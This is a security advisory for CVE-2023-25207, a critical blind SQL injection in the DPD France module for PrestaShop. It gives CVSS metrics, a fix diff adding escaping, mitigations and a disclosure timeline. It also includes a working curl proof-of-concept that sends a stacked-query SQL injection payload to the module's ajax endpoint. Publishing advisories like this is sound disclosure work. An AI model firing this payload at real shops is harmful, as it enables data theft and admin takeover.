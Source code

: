 ```yaml
---
layout: post
title: "[CVE-2023-25207] Multiple improper neutralization of SQL parameters in DPD France module for PrestaShop"
categories: modules
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,dpdfrance"
severity: "critical (9.8)"
---
```


In the module "DPD France" (dpdfrance) for PrestaShop, a remote attaker can perform a blind SQL injection in affected versions. Release 6.1.3 fixed vulnerabilities.

**WARNING** Be aware that the version 6.1.3 come with a new sensible problem which constitute a severe violation of the GDPR so you must stay in alert to apply without dealy future versions.

## Summary

* **CVE ID**: [CVE-2023-25207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
* **Published at**: 2023-03-09
* **Advisory source**: Friends-of-Presta.org
* **Vendor**: PrestaShop
* **Product**: dpdfrance
* **Impacted release**: < 6.1.3
* **Product author**: DPD France SAS
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

In dpdfrance module for PrestaShop up to 6.1.3, multiple sensitives SQL calls in method `dpdfrance::ajaxSetAddressOrder()` can be executed with a trivial http call and exploited to forge a bind SQL injection.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v -X POST -d 'action_ajax_dpdfrance=setAddressOrder&order=1%27;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://domain.tld/modules/dpdfrance/ajax.php?dpdfrance_token=EXPOSED_TOKEN_ON_FRONT_OFFICE'
```

## Patch

```diff
--- a/dpdfrance/dpdfrance.php
+++ b/dpdfrance/dpdfrance.php
@@ -977,7 +977,7 @@ class DPDFrance extends CarrierModule
     public function ajaxSetAddressOrder($param)
     {
         $dpdOrder = $this->getDpdOrder($param['order']);
-        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . (string)$param['street'] . "', override_return_zip = '" . (string)$param['zip'] . "', override_return_city = '" . (string)$param['city'] . "', override_return_phone = '" . (string)$param['phone'] . "' WHERE id_order_dpd = '" . $param['order'] . "';";
+        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . pSQL($param['street']) . "', override_return_zip = '" . pSQL($param['zip']) . "', override_return_city = '" . pSQL($param['city']) . "', override_return_phone = '" . pSQL($param['phone']) . "' WHERE id_order_dpd = '" . pSQL($param['order']) . "';";
         db::getInstance()->execute($sql);
         $response = ['update' => true];
         $response = json_encode($response);
```

## Other recommandations

* It’s recommended to upgrade the module beyond 6.1.3.
* For PrestaShop 1.6, you need to apply the patch manually.
* Upgrade PrestaShop beyong 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by ";").
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skilled because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| 2022-12-05 | Issue discovered during a code review by 202 Ecommerce and TouchWeb |
| 2022-12-05 | Contact the author |
| 2022-12-20 | Never recieved a response from the author |
| 2022-12-20 | Contact PrestaShop Addons Team |
| 2023-01-27 | Fix published on addons PrestaShop marketplace for PrestaShop 1.7+ only |
| 2023-01-28 | Request a CVE ID |
| 2023-03-08 | Publication of this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/shipping-carriers/19414-dpd-france-delivery.html)
* [DPD France module page](https://www.dpd.com/fr/fr/faq/prestashop/)
* [National Vulnerability Database](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
